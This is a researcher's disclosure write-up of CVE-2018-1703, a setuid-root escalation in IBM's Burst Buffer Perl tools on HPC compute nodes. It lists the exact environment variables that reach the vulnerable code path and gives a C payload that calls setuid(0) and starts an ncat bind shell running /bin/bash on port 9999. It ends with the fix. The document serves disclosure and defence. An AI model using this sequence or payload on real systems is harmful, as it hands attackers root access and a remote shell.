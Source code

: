 # CVE-2018-1703: Burst Buffer Setuid Root Escalation

## Overview

Burst Buffer is a type of buffer/cache that is available for the pre-staging (and post-staging) of data before and after a scientific job is placed on a compute node. Because simulations at scale are extremely fine-grained, scientific compute jobs will often wait for some time at the beginning of their code execution for data to stream into memory from fast scratch.  Burst Buffering is directed by system-level processes to pre-stage the next job's data onto compute node-local NVMe drives and reduce idle time spent on I/O at the beginning and end of compute jobs. Because this capability can be directed by system-level processes and the scheduler, it is of particular interest from an authentication and trust boundary perspective.

## Links

  - https://github.com/IBM/CAST
  - https://www-01.ibm.com/support/docview.wss?uid=ibm10734239
  - http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1703

## Tools and Background Knowledge

  * Linux Command Line Tools
  * find (for finding setuid root binaries!)
  * PERL (yuck)

## Writeup

The Burst Buffer package shipped with several tools related to the Burst Buffer ecosystem. Some of these were used early on in Burst Buffer development to emulate the Burst Buffer `bbproxy` before it was complete so that client side command line tooling could be developed.  These tools were installed by RPMs with the setuid bit set, meaning that users on the system can run these administrative tools and take advantage of any arbitrary code execution flaws within.  Here's an example of the vulnerable perl code that calls the user defined *$bbscript*.  &setupUserEnvrionment();

```
sub phase2
{
    $BADEXITRC = $BADNONRECOVEXITRC;
    &setupUserEnvironment();
    foreach $bbscript (@STGIN)
    {
        bpost("BB: Calling user stage-in script: $bbscript");
        $rc = cmd("$bbscript");
        bpost("BB: User stage-in script exited with $rc", …);
        failureCleanAndExit() if($rc != 0);
    }
}
```

### Diagram
A user logging into the login node can launch an interactive job on compute nodes.  After sshing to a compute node, the stagein_admin command was available to be run and would run user defined code in a context that could escalate to root.

```
                    ┌─────────────────┐   ┌─────────────────────────────────────────────────────────────────┐
                    │   Login Node    │   │                          Compute Node                           │
                    │                 │   │                                     ┌─────────────┐   ┌────────┐│
┌─────────────┐     │                 │   │                  ┌─────────────┐    │ bbtools.pm  │   │  User  ││
│   User @    │   ┌─┴─────┐  ┌──────┐ │ ┌─┴─────┐  ┌──────┐  │stagein_admin│  ┌─┴─────────────┴─┐ │Defined ││
│ Institution ├───▶ sshd  ├──▶ bash ├─┼─▶ sshd  ├──▶ bash ├──▶ (rwsr-xr-x) ├──▶stagein_admin.pl ├─▶  Code  ││
└─────────────┘   └─┬─────┘  └──────┘ │ └─┬─────┘  └──────┘  └─────────────┘  └─────────────────┘ └────────┘│
                    └─────────────────┘   └─────────────────────────────────────────────────────────────────┘
```

### Exploring PERL

One of the things that was nice about this vulnerability is that the perl source code that 'did the stuff' was actually readable (in the rwx sense). In the English sense, it did take a while to put together the appropriate environment variables necessary to hit a vulnerable code path.  Many references to isSetuid (such as this one:)

```
BEGIN
{   
    print "argv[0] = $ARGV[0]\n";
    if(isSetuid())
    {   
        unshift(@INC, '/opt/ibm/bb/scripts/');
    }
```

sprinkle the Perl scripts.  This seems to indicate that awareness of the *setuid==bad* concept, but as a codebase grows during development, it can be very difficult to cross all of the I-s and dot all of the T-s.
### Finding the right combo

After quite a bit of trial and error, tracing perl code and the way that enviornment variables were parsed, this was the magic sequence:

```
$ export LSF_STAGE_STORAGE_MINSIZE=1
$ export LSF_STAGE_JOBID=1337
$ export LSF_STAGE_USER='root'
$ export LSB_HOSTS='h41n07 h41n07'
$ export LSF_STAGE_USER_STAGE_IN=/path/to/shell/executable
```

`LSF_STAGE_STORAGE_MINSIZE` and `LSF_STAGE_JOBID` don't really matter in our case, but if are unset, will result in the perl code bombing. `LSF_STAGE_USER` is important to set as root, although perhaps other users could have been specified and code run as them.  That was not explored. `LSB_HOSTS` must be set to the active set of compute nodes the current job is running under.  Finally, `LSF_STAGE_USER_STAGE_IN` is the script/binary that the burst buffer daemon will use to stage data onto the compute node ahead of the job.  Passing in a binary that opens a listening socket, for instance, is something that we could explore...

### Building the payload

Initially, I used `touch` to demonstrate that my code was running in a privileged context, but the ultimate goal is persistence and a durable shell.  As such, I decided to build netcat for the ppc64le system, start a netcat listener on port 9999 that spawns shell when it's connected to, and then connect to it after running `stagein_admin`.

```
#include <unistd.h>
#include <stdlib.h>

int main( int argc, char **argv ) {

  setuid(0)
  execl("/gpfs/alpinetds/stf002/scratch/uua/ncat", "/gpfs/alpinetds/stf002/scratch/uua/ncat", "-l", "9999", "-e", "/bin/bash", (char *)NULL);

  return 0;

}
```


### Putting it all together

By configuring our environment *just right*, we can provide an executable to the `stagein_admin` command, which will happily run.  Because it does not take enough care to drop privs, we can use setuid(0) to regain them and own the system.

![Recorded exploitation of this Burst Buffer vulnerability](https://github.com/rmadamson/rmadamson/blob/main/writeups/gifs/setuid.gif)


### The fix

The fix for this is to not package setuid binaries when they aren't strictly necessary.  Information about affected versions can be found by following the links at the beginning of this writeup.

## Acknowledgements

This research used resources of the Oak Ridge Leadership Computing Facility at the Oak Ridge National Laboratory, which is supported by the Office of Science of the U.S. Department of Energy under Contract No. DE-AC05-00OR22725.
